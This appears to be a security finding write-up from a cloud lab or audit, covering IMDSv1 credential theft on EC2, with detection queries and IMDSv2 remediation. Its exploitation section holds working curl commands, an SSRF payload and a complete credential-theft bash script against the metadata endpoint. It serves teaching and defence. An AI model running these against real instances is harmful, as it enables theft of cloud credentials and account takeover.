

# WIZ-007: IMDS Exploitation

## Overview

| Attribute | Value |
|-----------|-------|
| **ID** | WIZ-007 |
| **Severity** | High |
| **CVSS** | 7.2 |
| **Component** | EC2 Instance Metadata Service |
| **MITRE ATT&CK** | T1552.005 - Cloud Instance Metadata API |

## Description

The EC2 instances use IMDSv1 (Instance Metadata Service version 1), which allows unauthenticated access to instance metadata including IAM role credentials. An attacker with code execution on an instance can steal temporary AWS credentials.

## Vulnerable Configuration

```hcl
# Default EC2 configuration (IMDSv1 enabled)
resource "aws_instance" "mongodb" {
  # ...

  # VULNERABLE: IMDSv1 is enabled by default
  # No metadata_options block means tokens are optional
}

# Explicit vulnerable configuration
resource "aws_instance" "mongodb" {
  metadata_options {
    http_endpoint               = "enabled"
    http_tokens                 = "optional"  # VULNERABLE: v1 allowed
    http_put_response_hop_limit = 2           # VULNERABLE: too high
  }
}
```

## IMDS Overview

### What is IMDS?

The Instance Metadata Service provides information about a running EC2 instance:

| Endpoint | Information |
|----------|-------------|
| `/latest/meta-data/` | Instance metadata |
| `/latest/meta-data/iam/` | IAM role information |
| `/latest/meta-data/iam/security-credentials/` | Temporary credentials |
| `/latest/user-data` | User data script |
| `/latest/dynamic/instance-identity/` | Instance identity document |

### IMDSv1 vs IMDSv2

| Feature | IMDSv1 | IMDSv2 |
|---------|--------|--------|
| Authentication | None | Session token required |
| Request method | GET | PUT (token) + GET |
| SSRF protection | None | Token hop limit |
| Default | Enabled | Must be required |

## Exploitation

### Prerequisites
- Code execution on EC2 instance (SSRF, RCE, SSH access)

### Steps

1. **Access the instance** (via SSH or application vulnerability)
   ```bash
   ssh -i keys/mongodb.pem ubuntu@<mongodb-ip>
   ```

2. **Query IMDS for role name**
   ```bash
   curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
   # Output: mongodb-role
   ```

3. **Retrieve temporary credentials**
   ```bash
   curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/mongodb-role
   ```
   Output:
   ```json
   {
     "Code": "Success",
     "LastUpdated": "2024-01-15T10:00:00Z",
     "Type": "AWS-HMAC",
     "AccessKeyId": "ASIAXXXXXXXXXXX",
     "SecretAccessKey": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
     "Token": "FwoGZXIvYXdzEBYaDK...",
     "Expiration": "2024-01-15T16:00:00Z"
   }
   ```

4. **Use stolen credentials**
   ```bash
   export AWS_ACCESS_KEY_ID="ASIAXXXXXXXXXXX"
   export AWS_SECRET_ACCESS_KEY="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
   export AWS_SESSION_TOKEN="FwoGZXIvYXdzEBYaDK..."

   # Now use AWS CLI from anywhere
   aws sts get-caller-identity
   aws s3 ls
   aws ec2 describe-instances
   ```

### SSRF Exploitation

If the application has an SSRF vulnerability:

```bash
# Example SSRF payload
curl "http://vulnerable-app/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

### Attack Script

```bash
#!/bin/bash
# IMDS credential theft script

IMDS_URL="http://169.254.169.254/latest/meta-data"

echo "[*] Querying Instance Metadata Service..."
ROLE_NAME=$(curl -s $IMDS_URL/iam/security-credentials/)

if [ -z "$ROLE_NAME" ]; then
    echo "[-] No IAM role attached"
    exit 1
fi

echo "[+] Found role: $ROLE_NAME"

echo "[*] Extracting credentials..."
CREDS=$(curl -s $IMDS_URL/iam/security-credentials/$ROLE_NAME)

echo "[+] Credentials retrieved:"
echo "$CREDS" | jq .

# Export for use
export AWS_ACCESS_KEY_ID=$(echo $CREDS | jq -r .AccessKeyId)
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | jq -r .SecretAccessKey)
export AWS_SESSION_TOKEN=$(echo $CREDS | jq -r .Token)

echo "[+] Testing credentials..."
aws sts get-caller-identity
```

## Impact

### Credential Scope

Stolen credentials inherit all permissions of the instance role:



### Attack Amplification

With overprivileged roles (WIZ-002), credential theft leads to:
- Full S3 bucket access
- EC2 infrastructure mapping
- Secret extraction
- Potential account takeover

## Detection

### AWS GuardDuty

Finding type: `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS`

```json
{
  "type": "UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS",
  "severity": 8,
  "resource": {
    "resourceType": "AccessKey",
    "accessKeyDetails": {
      "accessKeyId": "ASIAXXXXXXXXXXX",
      "principalId": "AROAXXXXXXXXX:i-0abc123",
      "userType": "AssumedRole"
    }
  },
  "service": {
    "action": {
      "awsApiCallAction": {
        "remoteIpDetails": {
          "ipAddressV4": "203.0.113.50"  // External IP!
        }
      }
    }
  }
}
```

### CloudTrail Analysis

Look for instance credentials used from non-instance IPs:

```sql
fields @timestamp, eventName, sourceIPAddress, userIdentity.arn
| filter userIdentity.type = 'AssumedRole'
| filter userIdentity.arn like /i-/
| filter sourceIPAddress != '10.0.'  # Not from VPC
| sort @timestamp desc
```

### VPC Flow Logs

Monitor IMDS access patterns:

```sql
fields @timestamp, srcAddr, dstAddr, dstPort
| filter dstAddr = '169.254.169.254'
| stats count(*) by srcAddr
| sort count desc
```

## Remediation

### Require IMDSv2

```hcl
resource "aws_instance" "mongodb" {
  # ...

  metadata_options {
    http_endpoint               = "enabled"
    http_tokens                 = "required"  # SECURE: IMDSv2 only
    http_put_response_hop_limit = 1           # SECURE: Limit hops
    instance_metadata_tags      = "disabled"
  }
}
```

### Account-Wide IMDSv2 Enforcement

Use SCP to enforce IMDSv2:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "RequireIMDSv2",
      "Effect": "Deny",
      "Action": "ec2:RunInstances",
      "Resource": "arn:aws:ec2:*:*:instance/*",
      "Condition": {
        "StringNotEquals": {
          "ec2:MetadataHttpTokens": "required"
        }
      }
    }
  ]
}
```

### Disable IMDS Entirely

If not needed:

```hcl
metadata_options {
  http_endpoint = "disabled"
}
```

### Use IRSA for EKS

For Kubernetes workloads, use IRSA instead:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: my-app
  annotations:
    eks.amazonaws.com/role-arn: arn:aws:iam::123456789012:role/my-app-role
```

### Network-Level Protection

Block IMDS from containers:

```bash
# On EC2 host, block container access to IMDS
iptables -A OUTPUT -m owner --uid-owner 1000 -d 169.254.169.254 -j DROP
```

## Verification

Test that IMDSv2 is enforced:

```bash
# IMDSv1 (should fail after fix)
curl -s http://169.254.169.254/latest/meta-data/
# Expected: 401 Unauthorized

# IMDSv2 (requires token)
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/
# Expected: Success
```

## References

- [EC2 Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- [GuardDuty Instance Credential Exfiltration](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-iam.html)
- [MITRE ATT&CK T1552.005](https://attack.mitre.org/techniques/T1552/005/)
